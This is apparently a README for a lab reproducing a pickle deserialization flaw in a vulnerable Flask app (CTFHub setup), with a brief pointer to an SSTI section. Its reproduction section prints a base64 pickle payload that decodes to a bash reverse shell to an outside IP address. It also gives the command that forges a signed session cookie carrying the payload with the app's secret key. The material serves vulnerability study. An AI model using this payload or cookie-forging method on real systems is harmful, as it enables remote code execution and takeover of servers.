

# Collection of verified vulnerabilities

## *Easy Flask - Python 反序列化*

### 使用方法
```
SessionDeserialization/
├── README.MD                   ────介绍文档
├── app.py                      ────flask app路由文件
├── conf.py                     ────flask配置文件
├── source                      ────source样例文件
└── template/                   ────模版目录
```
- 依赖安装
```
➜ python3 -m pip install itsdangerous
➜ python3 -m pip install flask
```
- 运行：`python3 app.py`
```
CTFHUBCTFHUBCTFHUB
 * Serving Flask app "app" (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
 * Running on http://0.0.0.0:80/ (Press CTRL+C to quit)

```

### 反序列化复现

- [*command.py*(点击查看代码)](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/Flask/SessionDeserialization/poc/command.py) 生成base64加密命令：
```
➜ python command.py
Y19fYnVpbHRpbl9fCmV2YWwKcDAKKFMiX19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2Jhc2ggLWkgPiYvZGV2L3RjcC80Ny43NC4zMS42NC8xMTAwMSAwPiYgMScpIgpwMQp0cDIKUnAzCi4=
```

- [*flask_manage_python3.py*(点击查看代码)](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/Flask/SessionDeserialization/poc/flask_manage_python3.py) 生成攻击反序列化session值：

```
➜ python3 flask_manage_python3.py encode -t "{'u':{'b':'Y19fYnVpbHRpbl9fCmV2YWwKcDAKKFMiX19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2Jhc2ggLWkgPiYvZGV2L3RjcC80Ny43NC4zMS42NC8xMTAwMSAwPiYgMScpIgpwMQp0cDIKUnAzCi4='}}" -s 'CTFHUBCTFHUBCTFHUB'

.eJwNys0OgiAAAOB34QkIaVO3DoarFGElpeARlmQ_xCVNne9e3_mbwQfEM9AgBmoVtcpVXh9Kr59RS14VUvVATZpQumOdXEVey21vXNnK0TodMEfFerpKDpsavnOU3wyytqgf9tipvtlXqAjKuyEh5CMOOMETExhxEn7ZORmYSIb_s0wYn1k_sJOHJs3oxSUT6fAGLMsP6_szsg.YJiviQ.l_Q71GoaEtJUOpftylPuSDqzUPU
```



## *Flask SSTI*（模版注入漏洞）

- [*python payload*](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/Flask/SSTI/)